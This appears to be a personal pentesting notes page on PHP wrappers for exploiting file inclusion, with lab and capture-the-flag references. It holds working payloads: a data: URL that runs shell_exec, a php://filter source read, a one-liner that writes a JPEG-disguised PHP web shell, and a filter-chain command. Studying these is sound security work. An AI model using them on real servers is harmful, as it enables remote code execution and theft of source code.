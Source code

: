 ```yaml
---
description: >-
  PHP Wrappers
title: PHP Wrappers              # Add title here
date: 2023-02-01 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, PHP Wrappers]                     # Change Templates to Writeup
tags: [exploitation, php, wrapper]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

## Wrappers
### data
Represent a string on the web page
```bash
http://10.11.0.22/menu.php?file=data:text/plain,hello world
```
![Description](/assets/img/Pasted-image-20220905144914.png)
Shell with data
```
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
![Description](/assets/img/Pasted-image-20220905144942.png)

### php://filter
Read file with base64 encode:
```php
php://filter/convert.base64-encode/resource=index.php
```
Examples:
[[StreamIO#^c6abe1]]
[[StreamIO#^56bdc2]]
[[StreamIO#^2912d9]]
[[StreamIO#^6f66d1]]

### Bypassing restrictions
Using magic number to bypass jpeg restriction:
```bash
printf '\xff\xd8\xff<?=`{$_GET["cmd"]}`;>' > sploit.php
```
Examples:
[ECHO CTF Cupidme](https://echoctf.red/target/33/writeup/read/7)

### PHP FILTER CHAIN GENERATOR
An excellent option to create a wrapper is by appending encoding wrappers for every character, this can be done with 
[php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator):

```bash
$ php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|/resource=php://temp');"
cwwwwcGyQpQw+-AD0APQ+-AD0APQ+-AD0APQ+-AD0APQ+-AD0APQ+-AD0APQ+AD0APQ-
```

### Common Attacks
![Description](/assets/img/Pasted-image-20220811010103.png)

